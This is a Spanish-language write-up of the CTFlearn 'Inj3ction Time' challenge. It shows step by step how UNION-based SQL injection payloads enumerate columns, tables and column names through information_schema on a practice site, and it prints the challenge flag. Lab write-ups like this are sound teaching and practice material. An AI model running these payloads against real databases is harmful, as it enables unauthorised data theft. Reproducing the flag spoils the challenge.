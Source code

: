 # CTFlearn - Inj3ction Time


## Descripción

I stumbled upon this website: http://web.ctflearn.com/web8 and I think they have the flag in their somewhere. UNION might be a helpful command.


## Solución

Vemos solo una página que nos pide un ID. Por el título y la descripción sabemos que debemos explotar un **SQLi UNION Attack**.

![](./imagenes/injection-time-1.png)

Probamos escribiendo números para saber qué tipo de ID necesita.

![](./imagenes/injection-time-2.png)

Si escribimos una letra la página no nos responde, entonces utilizaremos números.

Esto lo hacemos para tener en cuenta la comilla en nuestra inyección `'`. Como estamos trabajando con números no es necesario esta comilla al inicio de nuestra inyección.

![](./imagenes/injection-time-3.png)

Primeros enumeramos, agregaremos un **null** y después iremos agregando más hasta que la página nos responda correctamente.

```sql
1 union select null-- -
```

![](./imagenes/injection-time-4.png)

Vemos que con dos **null** tampoco funciona, así que seguimos agregando.

```sql
1 union select null,null-- -
```

![](./imagenes/injection-time-5.png)

Seguimos agregando hasta que llegamos a 4 y la página nos responde correctamente.

```sql
1 union select null,null,null,null-- -
```

![](./imagenes/injection-time-6.png)

Ahora buscamos la tabla que contenga la flag, ejecutando una query que nos muestre todas las tablas de la base de datos.

```sql
1 union select table_name,null,null,null from information_schema.tables-- -
```

![](./imagenes/injection-time-7.png)

Al final de la página veremos una tabla que destaca.

![](./imagenes/injection-time-8.png)

Ahora falta obtener el nombre de la columna donde se encuentra la flag. Para obtener eso ejecutamos la siguiente query que nos devolverá todas las columnas de la base de datos.

```sql
1 UNION SELECT column_name,null,null,null FROM information_schema.columns -- -
```

![](./imagenes/injection-time-9.png)

Si vamos al final de la página veremos una que destaca `f0und_m3`.

![](./imagenes/injection-time-10.png)

Ya tenemos la tabla y la columna donde está la flag, con esto podemos ejecutar la siguiente query y obtendremos la flag.

```sql
1 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3 -- -
```

![](./imagenes/injection-time-11.png)


## Flag

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`